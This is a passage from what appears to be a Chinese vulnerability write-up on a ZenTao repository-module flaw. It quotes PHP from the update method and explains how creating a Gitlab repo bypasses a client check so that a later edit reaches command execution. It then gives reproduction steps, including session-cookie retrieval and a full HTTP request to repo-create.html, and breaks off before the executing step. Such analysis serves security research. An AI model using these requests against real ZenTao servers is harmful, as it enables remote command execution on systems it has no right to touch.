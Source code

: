 ```php
            ->autoCheck()
            ->where('id')->eq($id)->exec();

        $this->rmClientVersionFile();

        if($data->SCM == 'Gitlab') $data->path = $this->getRepoByID($id)->path;

        if($repo->path != $data->path)
        {
            $this->dao->delete()->from(TABLE_REPOHISTORY)->where('repo')->eq($id)->exec();
            $this->dao->delete()->from(TABLE_REPOFILES)->where('repo')->eq($id)->exec();
            return false;
        }
      
        return true;
    }
```

update方法在SCM设置为Gitab，会进行rmClientVersionFile方法。这个方法的内容在checkClient也存在。

![img](https://cdn.nlark.com/yuque/0/2023/png/21861937/1673869890587-4a98c521-fe6c-479d-bfae-016ba56aa86d.png)

该方法主要是用于移除client version file，在checkClient里面也有相同代码。而payload中创建好了仓库编辑仓库内容触发module/repo/control.php的edit方法，实际调用了module/repo/model.php的update方法。因此，先通过create创建好仓库绕过checkClient，然后通过edit修改scm触发checkConnection直接执行命令。

![img](https://cdn.nlark.com/yuque/0/2023/png/21861937/1673869859621-335e220f-acbe-410d-a81f-590eea237647.png)

#### 3.2.3 漏洞复现

- 获取session

访问`http://x.x.x.x/zentao/misc-captcha-user.html`在f12控制台-应用选项卡可以获取到zentaosid（cookie）：

![img](https://cdn.nlark.com/yuque/0/2023/png/21861937/1673602003441-b7fe39f3-7986-4e45-819f-9b869123af74.png)

- 创建并制定仓库为GItlab

```http
POST /zentao/repo-create.html HTTP/1.1
Host: x.x.x.x
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.211.55.12/zentao/user-login-L3plbnRhby8=.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: zentaosid=d53959592d07ca9e6e0bf25ef479a0c2; lang=zh-cn; device=desktop; theme=default
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://10.211.55.12/repo-edit-1-0.html
Content-Length: 111

product%5B%5D=1&SCM=Gitlab&name=66666&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=
```
